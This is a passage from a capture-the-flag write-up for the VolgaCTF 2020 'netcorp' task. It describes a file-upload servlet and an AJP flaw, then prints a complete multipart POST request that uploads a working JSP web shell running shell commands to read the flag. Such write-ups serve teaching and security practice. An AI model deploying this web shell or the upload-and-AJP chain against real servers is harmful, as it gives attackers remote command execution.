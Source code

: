```java
        return "";
    }
}
```

Here we see the `doPost` method that saves our sended file. But the method cuts the extension and saves it with a filename that is going to be the MD5 hash of the original filename as a hex string (padded with zeros at the beginning). Files will be saved in the `/uploads` folder.

We already know that we can execute content of HTTP responses via AJP vulnerability. So we sand shell code to find the flag in the file system.

So we create a '.jsp' web shell and send it to the server via `ServeScreenshotServlet`.

```
POST /ServeScreenshot HTTP/1.1
Host: netcorp.q.2020.volgactf.ru:7782
Content-Type: multipart/form-data; boundary=---------------------------29892275804038301485854623326
Content-Length: 1123
Connection: close

-----------------------------29892275804038301485854623326
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: application/octet-stream

<%@page import="java.lang.*"%>
<%@page import="java.util.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>

<%
  
  try
  {
  	String Shell = "cat flag.txt";
  	
     String ShellPath;
	if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
	  ShellPath = new String("/bin/bash -c $@|sh . echo ");
	} else {
	  ShellPath = new String("cmd.exe /C ");
	}

	Process p = Runtime.getRuntime().exec( ShellPath + Shell);
	
	OutputStream os = p.getOutputStream();
     InputStream in = p.getInputStream();
     DataInputStream dis = new DataInputStream(in);
     String disr = dis.readLine();
     while ( disr != null ) {
     	out.println(disr);
    		disr = dis.readLine();
     }
     
  } catch( Exception e ) {
  	out.println(e);
  }
%>
-----------------------------29892275804038301485854623326
Content-Disposition: form-data; name="submit"

Upload Image
-----------------------------29892275804038301485854623326--

```